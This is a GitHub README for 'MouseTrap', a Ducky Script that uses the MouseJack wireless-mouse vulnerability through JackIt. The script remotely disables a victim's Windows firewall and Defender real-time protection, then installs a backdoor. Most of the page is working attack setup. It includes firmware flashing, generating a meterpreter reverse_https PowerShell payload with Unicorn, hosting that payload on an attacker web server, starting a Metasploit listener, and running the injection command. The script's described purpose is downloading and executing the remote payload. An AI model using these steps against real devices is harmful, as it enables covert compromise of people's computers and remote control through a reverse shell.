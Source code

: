 # MouseTrap
This is an implementation of Bastille's exploit [MouseJack](https://github.com/BastilleResearch/mousejack) using [JackIt's](https://github.com/insecurityofthings/jackit) exploit code. Full credit goes to them for discovering this issue and writing the libraries to work with the CrazyRadio PA dongle, as well as the implementation that I have created a Ducky Script for. For more information about the vulnerability, as well as vulnerable devices, check out their Github repositories!
## What is MouseTrap?
MouseTrap is a Ducky Script I have written for MouseJack that allows a user to disable firewalls and Windows Defender real-time protection, and install a backdoor remotely through a victim's wireless mouse. In roughly 10 seconds, you can have a meterpreter session running without firewall interruption.
## Installation
Tested on a clean Kali Linux VM with a Crazy Radio PA
### MouseJack
Flashes CrazyRadio PA dongle with firmware and sets up dependencies
```
sudo git clone https://github.com/BastilleResearch/mousejack.git
sudo apt-get install sdcc binutils python python-pip
sudo pip install -U pip
sudo pip install -U -I pyusb
sudo pip install -U platformio
cd mousejack
git submodule init
git submodule update
cd nrf-research-firmware
make
sudo make install

```
### JackIt
Used to scan for vulnerable devices and inject payload
```
sudo git clone https://github.com/insecurityofthings/jackit.git
cd jackit
pip install -e .
```
### Unicorn
Develops powershell payload and sets up Metasploit Meterpreter session
```
sudo git clone https://github.com/trustedsec/unicorn.git
cd unicorn
python unicorn.py windows/meterpreter/reverse_https <LHOST IP> <LPORT>
mv powershell_attack.txt /var/www/html/
service apache2 start
msfconsole -r unicorn.rc
```
## Execution
In order to optimize the speed of the payload, I created a web server on my device that the script downloads and executes. It is not necessary; however, recommended. In order for the script to install the payload, edit the `<LHOST>` in my `nofirewallallhack` file. Once the webserver is up and running with the Powershell payload, execute the command 
```
sudo jackit --script nofirewallallhack
```

